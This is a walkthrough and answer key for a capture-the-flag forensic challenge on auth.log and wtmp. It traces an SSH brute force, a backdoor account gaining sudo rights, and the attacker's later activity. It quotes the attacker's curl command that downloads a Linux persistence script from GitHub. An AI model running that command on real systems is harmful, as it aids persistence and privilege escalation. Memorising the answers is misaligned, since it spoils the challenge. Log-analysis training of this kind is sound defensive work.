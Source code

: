 ## Challenge Information

![](../../Image/Pasted%20image%2020250604181413.png)

| Name       | Brutus                                      |
| ---------- | ------------------------------------------- |
| Difficulty | Very Easy                                   |
| Category   | #log-analysis #forensic                     |
| Tags       | #auth-log #wtmp #btmp #utmp #ssh-bruteforce |

## Scenario

> In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

## Overview
The download zip has two files in it, `auth.log` and `wtmp` :
#### auth.log
- `auth.log` is a text log that logs both successful and failed logins.

According to [RFC 5424](https://datatracker.ietf.org/doc/html/rfc5424#section-6), the format of each line is:
```
<Timestamp> <Hostname> <Service>[<process_id>]: <Message>
```
#### wtmp
`wtmp` is one of three files that tracks login and logout events on a Linux system. 
- `/var/run/utmp` tracks the currently logged in users. 
- `/var/log/wtmp` keeps a historical log of login and logout activity. 
- `/var/log/btmp` keeps a record of invalid login attempts.
As **wtmp** is a binary log file, I wile utilize `utmpdump` to read.

## Walkthrough

#### SSH Brute-force
To find brute-force attack, use `grep "Failed"`.

```
┌──(kali㉿kali)-[~/Desktop/Brutus]
└─$ cat auth.log | grep "Failed"
Mar  6 06:31:33 ip-172-31-35-28 sshd[2327]: Failed password for invalid user admin from 65.2.161.68 port 46392 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2331]: Failed password for invalid user admin from 65.2.161.68 port 46436 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2332]: Failed password for invalid user admin from 65.2.161.68 port 46444 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2335]: Failed password for invalid user admin from 65.2.161.68 port 46460 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2337]: Failed password for invalid user admin from 65.2.161.68 port 46498 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2334]: Failed password for invalid user admin from 65.2.161.68 port 46454 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2338]: Failed password for backup from 65.2.161.68 port 46512 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2336]: Failed password for backup from 65.2.161.68 port 46468 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2330]: Failed password for invalid user admin from 65.2.161.68 port 46422 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2328]: Failed password for invalid user admin from 65.2.161.68 port 46390 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2329]: Failed password for invalid user admin from 65.2.161.68 port 46414 ssh2
Mar  6 06:31:33 ip-172-31-35-28 sshd[2333]: Failed password for invalid user admin from 65.2.161.68 port 46452 ssh2
Mar  6 06:31:34 ip-172-31-35-28 sshd[2352]: Failed password for backup from 65.2.161.68 port 46568 ssh2
Mar  6 06:31:34 ip-172-31-35-28 sshd[2351]: Failed password for backup from 65.2.161.68 port 46538 ssh2
Mar  6 06:31:34 ip-172-31-35-28 sshd[2355]: Failed password for backup from 65.2.161.68 port 46576 ssh2
Mar  6 06:31:34 ip-172-31-35-28 sshd[2357]: Failed password for backup from 65.2.161.68 port 46582 ssh2
Mar  6 06:31:36 ip-172-31-35-28 sshd[2357]: Failed password for backup from 65.2.161.68 port 46582 ssh2
Mar  6 06:31:37 ip-172-31-35-28 sshd[2359]: Failed password for invalid user server_adm from 65.2.161.68 port 46596 ssh2
Mar  6 06:31:37 ip-172-31-35-28 sshd[2361]: Failed password for invalid user server_adm from 65.2.161.68 port 46614 ssh2
Mar  6 06:31:37 ip-172-31-35-28 sshd[2368]: Failed password for invalid user server_adm from 65.2.161.68 port 46676 ssh2
Mar  6 06:31:37 ip-172-31-35-28 sshd[2369]: Failed password for invalid user server_adm from 65.2.161.68 port 46682 ssh2
Mar  6 06:31:37 ip-172-31-35-28 sshd[2365]: Failed password for invalid user server_adm from 65.2.161.68 port 46644 ssh2
Mar  6 06:31:37 ip-172-31-35-28 sshd[2366]: Failed password for invalid user server_adm from 65.2.161.68 port 46648 ssh2
Mar  6 06:31:37 ip-172-31-35-28 sshd[2364]: Failed password for invalid user server_adm from 65.2.161.68 port 46632 ssh2
Mar  6 06:31:37 ip-172-31-35-28 sshd[2367]: Failed password for invalid user server_adm from 65.2.161.68 port 46664 ssh2
Mar  6 06:31:37 ip-172-31-35-28 sshd[2363]: Failed password for invalid user server_adm from 65.2.161.68 port 46620 ssh2
Mar  6 06:31:37 ip-172-31-35-28 sshd[2377]: Failed password for invalid user server_adm from 65.2.161.68 port 46684 ssh2
Mar  6 06:31:38 ip-172-31-35-28 sshd[2379]: Failed password for invalid user server_adm from 65.2.161.68 port 46698 ssh2
Mar  6 06:31:38 ip-172-31-35-28 sshd[2380]: Failed password for invalid user server_adm from 65.2.161.68 port 46710 ssh2
Mar  6 06:31:38 ip-172-31-35-28 sshd[2383]: Failed password for invalid user svc_account from 65.2.161.68 port 46722 ssh2
Mar  6 06:31:38 ip-172-31-35-28 sshd[2384]: Failed password for invalid user svc_account from 65.2.161.68 port 46732 ssh2
Mar  6 06:31:38 ip-172-31-35-28 sshd[2387]: Failed password for invalid user svc_account from 65.2.161.68 port 46742 ssh2
Mar  6 06:31:38 ip-172-31-35-28 sshd[2389]: Failed password for invalid user svc_account from 65.2.161.68 port 46744 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2391]: Failed password for invalid user svc_account from 65.2.161.68 port 46750 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2393]: Failed password for invalid user svc_account from 65.2.161.68 port 46774 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2394]: Failed password for invalid user svc_account from 65.2.161.68 port 46786 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2397]: Failed password for invalid user svc_account from 65.2.161.68 port 46814 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2398]: Failed password for invalid user svc_account from 65.2.161.68 port 46840 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2396]: Failed password for invalid user svc_account from 65.2.161.68 port 46800 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2400]: Failed password for invalid user svc_account from 65.2.161.68 port 46854 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2399]: Failed password for root from 65.2.161.68 port 46852 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2407]: Failed password for root from 65.2.161.68 port 46876 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2409]: Failed password for root from 65.2.161.68 port 46890 ssh2
Mar  6 06:31:41 ip-172-31-35-28 sshd[2399]: Failed password for root from 65.2.161.68 port 46852 ssh2
Mar  6 06:31:41 ip-172-31-35-28 sshd[2407]: Failed password for root from 65.2.161.68 port 46876 ssh2
Mar  6 06:31:41 ip-172-31-35-28 sshd[2409]: Failed password for root from 65.2.161.68 port 46890 ssh2
Mar  6 06:31:42 ip-172-31-35-28 sshd[2423]: Failed password for backup from 65.2.161.68 port 34834 ssh2
Mar  6 06:31:42 ip-172-31-35-28 sshd[2424]: Failed password for backup from 65.2.161.68 port 34856 ssh2
```

To find successful logon, use `grep "Accepted"` :

```
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:31:40 ip-172-31-35-28 systemd-logind[411]: New session 34 of user root.
```
##### Analysis:
- **Attacker IP address**: 65.2.161.68
- Except for invalid users and backup, we must look up to **root** logon attempts.
- **Success Brute-force Time**: Mar 6 06:31:40

To read wtmp, use `utmpdump wtmp`:

![](../../Image/Pasted%20image%2020250604195534.png)
##### Analysis:
- The time that attacker logins on machine based on IP and time above: 2024-03-06 06:32:45.
- New suspicious account logon: **cyberjunkie** - 2024-03-06 06:37:35

To know connecting session, analysis the **auth.log** :

![](../../Image/Pasted%20image%2020250604201113.png)

- The session created according to time logon above: 37

According to auth.log, I certainly prove that new account is created and given the highest privilege.

![](../../Image/Pasted%20image%2020250604201839.png)

![](../../Image/Pasted%20image%2020250604203313.png)

- The new account: cyberjunkie -> **MITRE T1136.001** (Creating Local Account) on Persistence category.
- New session on account: 49 - 2024-03-06 06:37:24

Actions after logon on new account:

![](../../Image/Pasted%20image%2020250604203418.png)

```
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```
- As the file shows, I confirm the attacker had abused `/etc/shadow` file first to extract hashes.
- Secondly, attacker used **lineper.sh** to enumerate the machine to find any chance for going further privilege.
---
## Questions
- Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?
=> 65.2.161.68

- The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?
=> root

- Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.
=> 2024-03-06 06:32:45

- SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?
=> 37

- The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?
=> cyberjunkie

- What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?
=> T1136.001

- What time did the attacker's first SSH session end according to auth.log?
=> 2024-03-06 06:37:24

- The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

```
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```